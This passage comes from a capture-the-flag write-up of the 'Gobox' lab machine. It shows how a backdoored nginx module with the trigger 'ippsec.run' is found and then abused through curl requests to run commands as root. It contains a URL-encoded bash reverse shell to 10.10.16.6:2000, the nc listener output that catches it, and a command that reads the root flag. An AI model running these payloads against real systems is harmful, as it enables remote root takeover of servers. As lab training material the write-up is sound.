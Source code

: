 Using the strings command, we are also able to obtain ```ippsec.run```

```
www-data@gobox:/usr/lib/nginx/modules$ strings ngx_http_execute_module.so | grep ".run"
strings ngx_http_execute_module.so | grep ".run"
ippsec.run
```

Knowing that, let us try the Nginx Execute exploit again using ippsec.run instead this time. This time, the exploit can be carried out successfully

```
www-data@gobox:/usr/lib/nginx/modules$ curl -g http://127.0.0.1:8000/?ippsec.run[id]
curl -g http://127.0.0.1:8000/?ippsec.run[id]
uid=0(root) gid=0(root) groups=0(root)
```

Using this, we can create a reverse shell connection to our local machine using a reverse shell payload. However, we realize that the connection will be disconnected after a short while. (NOTE: The reverse shell payload must be url encoded)

```
www-data@gobox:/usr/lib/nginx/modules$ curl -g http://127.0.0.1:8000/?ippsec.run[%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F2000%200%3E%261%27]
curl -g http://127.0.0.1:8000/?ippsec.run[%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F2000%200%3E%261%27]
curl: (52) Empty reply from server
-------------------------------------------------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Desktop/gobox]
└─$ nc -nlvp 2000 
listening on [any] 2000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.113] 53246
bash: cannot set terminal process group (35345): Inappropriate ioctl for device
bash: no job control in this shell
root@gobox:/# exit
```

### Obtaining root flag
Executing the id command using the NginxExecute exploit tells us that we are now running as root. Hence, we are able to extract the root flag by replacing the ```id``` command with ```cat /root/root.txt``` (NOTE: We will have to url encode the payload for it to work)

```
www-data@gobox:/usr/lib/nginx/modules$ curl -g http://127.0.0.1:8000/?ippsec.run[cat%20%2Froot%2Froot.txt]
curl -g http://127.0.0.1:8000/?ippsec.run[cat%20%2Froot%2Froot.txt]
<Redacted root flag>
```

## Post-Exploitation
### Privilege Escalation using SUID
Making use of the NginxExecute exploit, we still can obtain a privileged shell. Firstly, we can copy the /bin/bash binary into our /tmp directory using ```cp /bin/bash /tmp``` (NOTE: This exploit only works for /tmp but not /dev/shm)
